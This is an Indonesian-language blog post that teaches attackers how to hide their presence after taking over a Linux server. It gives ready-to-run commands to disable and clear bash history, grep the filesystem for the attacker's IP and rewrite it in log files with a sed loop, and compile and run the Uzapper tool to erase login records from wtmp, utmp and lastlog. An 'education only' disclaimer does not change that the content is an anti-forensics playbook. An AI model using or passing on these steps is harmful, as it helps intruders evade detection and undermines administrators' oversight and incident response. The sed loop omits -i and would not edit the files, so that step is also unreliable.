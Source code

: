 ```yaml
---
layout: post
title: Covering Track! Menjadi Hantu pada Linux Server
categories: [Covering Track]
author: Novran Faathir
---
```


Sesuatu hal yang "SULIT TERDETEKSI" itu memanglah menarik, sama seperti melakukan Covering Track. Sebelumnya artikel ini sudah kita bahas pada Blog ZeroByte.ID yang lama, namun saya coba tulis ulang disini.

**Covering Track adalah** upaya untuk menghilangkan jejak setelah melakukan penyerangan terhadap aplikasi maupun Server.

Pada dasarnya seorang Administrator itu akan selalu berurusan dengan yang namanya Log File dan tentunya sebagai Attacker pun harus menghindar dari Log File tersebut.

### REMEMBER: For Education Purpose Only!

Artikel ini hanya untuk pembelajaran saja dan untuk kedepannya mungkin kami akan menulis tentang solusi untuk `Anti Covering Track`-nya juga.

Peran kita disini yaitu sebagai "Attacker" yang sudah melakukan Take-over sebuah Server yang menggunakan sistem operasi Linux, kemudian kita masuk kedalam Shell dari Server tersebut.

# BASH History

**HISTFILE**

HISTFILE adalah sebuah Environment Variable pada Linux yang digunakan untuk mengarahkan sebuah file history yang berisi command-command yang sebelumnya sudah pernah dieksekusi oleh User.

```
user1@linux:~$ echo $HISTFILE
/home/user1/.bash_history
```

```
user1@linux:~$ cat /home/user1/.bash_history
sudo apt-get clean
sudo vi /etc/apt/sources.list
sudo apt-get update
...
```

Supaya aktifitas kita sebagai Attacker tidak tercatat, lebih baik kita arahkan ke `/dev/null`.
```
user1@linux:~$ HISTFILE=/dev/null
user1@linux:~$ echo $HISTFILE
/dev/null
```

Namun ada langkah frustasi, kalau kita lupa mengarahkan BASH History sebelumnya (di-awal).

**Clean History**

```
user1@linux:~$ history -c
```

# Clean Your Public IP from Log File

Hal ini dapat dilakukan kalau kalian memiliki hak akses level "root" karena disini kita akan memanipulasi Log File tentunya.

Pertama-tama ketahuilah IP Public kita sendiri, kita dapat melihatnya melalui website:

<https://www.whatismyip.com/>

**Mencari Log File yang mencatat IP kita**

```
root@linux:~# grep -Rn 'YOUR IP' /var/log/ 2> /dev/null
```

Atau gunakan command di bawah ini untuk mencari LOG keseluruhan (dari root):

```
root@linux:~# grep -Rn 'YOUR IP' / 2> /dev/null
```

**NOTE:** Ubah `YOUR IP` menjadi IP Address kalian.

**Manipulasi IP Address pada Log File**

`Mengapa tidak dihapus saja LOG-nya?`

Jika Log File kita hapus, itu adalah tindakan yang gegabah dan tidak menutup kemungkinan `Administrator` akan melakukan eskalasi ke pihak `Provider`.

**Manipulasi Log**

Disini kita akan menggunakan perintah `sed`.

Contoh:
```
root@linux:~# sed 's/KATA ASLI/KATA GANTI/g' file
```

Supaya lebih cepat memanipulasi IP, kita jadikan script seperti di bawah ini:

```
for LOGFILE in $(grep -Rn 'YOUR IP' / 2> /dev/null | awk -F ':' '{print $1}' | sort -V | uniq)
do
sed 's/YOUR IP/FAKE IP/g' $LOGFILE
done
```

# Stealth (from WTMP, UTMP, and Lastlog)

- WTMP = mencatat setiap ada yang login/logoff
- UTMP = mencatat siapa yang sedang melakukan akses saat ini
- Lastlog = mencatat source address user yang melakukan login terakhir

**Uzapper Tool**

Tool ini digunakan untuk menghapus log umum pada sistem operasi Solaris, SunOS, IRIX, Linux, FreeBSD.

Kalian dapat unduh pada link di bawah ini:

- <https://packetstormsecurity.com/files/16378/uzapper.c.html>

Untuk melihat siapa yang sedang masuk dan melihat apa yang sedang mereka lakukan (berdasarkan sesi), kalian dapat menggunakan perintah `w`.

```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
  user1 pts/2 ???  2:52am 1                -sh
```

Compile Uzapper:
```
root@linux:~# gcc uzapper.c -o uzapper
```

Jalankan Uzapper:
```
root@linux:~# ./uzapper user1
```

Periksa kembali sesi yang aktif:
```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
```

**user1** hilang, karena sudah di-wipe menggunakan Uzapper.

# Done!
Artikel tentang Covering Track ini hanya untuk pelajaran saja, pasti banyak yang bertanya-tanya:

```
Kenapa gak pake VPN aja? Biar gak ribet!
```

Silakan dijawab sendiri :)

Terima kasih.

Semoga artikel yang membahas tentang `Covering Track` akan terus berlanjut.
